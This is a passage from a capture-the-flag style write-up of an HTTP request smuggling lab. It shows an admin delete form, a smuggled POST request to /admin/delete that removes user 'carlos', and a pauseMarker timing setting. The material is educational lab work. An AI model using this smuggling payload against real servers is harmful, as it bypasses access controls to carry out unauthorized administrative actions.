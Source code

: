 This time we successfully bypassed the admin panel restriction!!

**Now, the admin panel has a HTML form:**
```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="OPub21PuuzgPKd01kmApu3QktxGyRcjg">
    <label>Username</label>
    <input required type='text' name='username'>
    <button class='button' type='submit'>Delete user</button>
</form>
```

When the "Submit" button is clicked, **it'll send a POST request to `/admin/delete`, with parameter `csrf` and `username`.**

Armed with above information, we can delete user `carlos`!

**To do so, we need to modify the smuggled request:**
```http
Content-Length: 158

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=unSEDsbIWW4wAWKgLuWtazQUKSvfi6dP&username=carlos
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226200525.png)

**Also, we need to update `pauseMarker` argument, so that it only matches the end of the first set of headers:**
```py
pauseMarker=['Content-Length: 53\r\n\r\n']
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226194544.png)
